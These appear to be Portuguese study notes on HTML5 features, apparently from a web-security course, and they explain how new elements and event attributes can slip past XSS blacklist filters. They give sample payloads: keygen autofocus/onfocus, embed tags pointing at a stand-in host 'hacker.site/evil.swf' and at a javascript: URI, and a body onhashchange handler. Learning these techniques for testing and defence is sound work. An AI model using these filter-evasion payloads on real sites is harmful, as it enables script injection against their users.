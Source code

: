 # HTML5 - Intro, Recap & More

## Semantics

Com as atualizações do HTML5 novos elementos foram inseridos como por exemplo, elementos de mídia, tipos de formulário e atributos. 

Com isso podemos usar esses elementos para burlar filtros de blacklisting em ataques de XSS por exemplo

**Form Elements**

Um elemento novo é o <keygen>que possui o atributo autofocus. Útil para explorar XSS sem interação do usuário

```html
<form action="#" method="GET">
	Encryption: <keygen name="security" autofocus onfocus="alert(1);">
</form>
```

**Media Elements**

Além dos elementos \<video> e \<audio> que são comumente usados, também existem os elementos <source>, <track> e \<embed> que possuem o atributo src

```html
<embed src="http://hacker.site/evil.swf">
<embed src="javascript:alert(1)">
```

**Semantic/Structural Elements**

Existem muitos outros elementos usados para melhorar a estrutura da página como:
\<article>, \<figure>, \<footer>, \<header>, \<main>, \<mark>, \<nav>, \<progess>, \<section>, \<summary>, \<time>, etc...

Todos eles suportam Event Attributes

**Attributes**

Existem uma lista enorme de eventos interessantes como: onhashchange, onformchange, onscroll, onresize...

```html
<body onhashchange="alert(1)">
	<a href="#">Click me!</a>
```

## Offline & Storage